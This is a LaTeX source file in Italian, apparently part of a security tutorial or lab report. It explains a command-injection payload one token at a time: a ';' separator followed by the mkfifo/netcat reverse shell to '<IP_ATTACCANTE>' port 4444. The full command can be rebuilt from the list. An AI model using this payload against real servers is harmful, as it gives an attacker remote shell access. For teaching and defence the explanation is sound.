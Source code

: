 \documentclass[12pt,a4paper]{report}
\begin{document}
	\begin{itemize}
		\item \textbf{\texttt{;}} $\rightarrow$ È il separatore di comandi iniziale. Serve a chiudere bruscamente l'istruzione legittima avviata dal server web e a imporre l'esecuzione immediata del nostro payload, a prescindere dal successo o dal fallimento del comando precedente.
		\item \textbf{\texttt{rm /tmp/f}} $\rightarrow$ Rimuove in modo preventivo il file chiamato \texttt{f} all'interno della directory temporanea \texttt{/tmp/}, qualora fosse già presente a causa di un precedente tentativo di attacco fallito. Questo evita collisioni ed errori nel passaggio successivo.
		\item \textbf{\texttt{mkfifo /tmp/f}} $\rightarrow$ Crea una \textit{Named Pipe} (chiamata anche FIFO - First In, First Out) con il nome \texttt{f} nella directory \texttt{/tmp/}. A differenza dei file normali, una named pipe sul filesystem Linux agisce come un canale di comunicazione bidirezionale in tempo reale tra processi.
		\item \textbf{\texttt{cat /tmp/f}} $\rightarrow$ Legge costantemente il contenuto che entra all'interno della pipe \texttt{/tmp/f} e lo spinge verso l'esterno sul proprio canale di Standard Output (\textit{stdout}).
		\item \textbf{\texttt{\textbar}} $\rightarrow$ È l'operatore di \textit{pipe} classico della shell Linux. Prende lo Standard Output del comando a sinistra (\texttt{cat}) e lo incanala direttamente nello Standard Input (\textit{stdin}) del comando alla sua destra.
		\item \textbf{\texttt{/bin/sh -i}} $\rightarrow$ Avvia un'istanza della shell di sistema (\texttt{sh}) in modalità interattiva (\texttt{-i}). Essendo collegata alla pipe tramite l'operatore precedente, questa shell riceverà ed eseguirà come comandi operativi tutto ciò che transita dentro \texttt{/tmp/f}.
		\item \textbf{\texttt{2\textgreater{}\&1}} $\rightarrow$ Redirige il canale dello Standard Error (file descriptor 2) all'interno del canale dello Standard Output (file descriptor 1). In questo modo, se si digita un comando errato o si riceve un errore di sistema nella shell remota, l'errore verrà trasmesso indietro all'attaccante invece di perdersi localmente sul server web.
		\item \textbf{\texttt{\textbar{} nc \textless{}IP\_ATTACCANTE\textgreater{} 4444}} $\rightarrow$ Riceve l'output della shell interattiva (compresi i messaggi di errore) e lo passa a Netcat. Netcat apre una connessione di rete TCP \textit{outbound} verso l'indirizzo IP dell'attaccante sulla porta specificata (es. 4444). 
		\item \textbf{\texttt{\textgreater{}/tmp/f}} $\rightarrow$ Redirige lo Standard Output di Netcat (ovvero i comandi testuali che l'attaccante digiterà sulla propria macchina di controllo) e li scrive nuovamente all'interno della named pipe iniziale \texttt{/tmp/f}.
	\end{itemize}
	
\end{document}
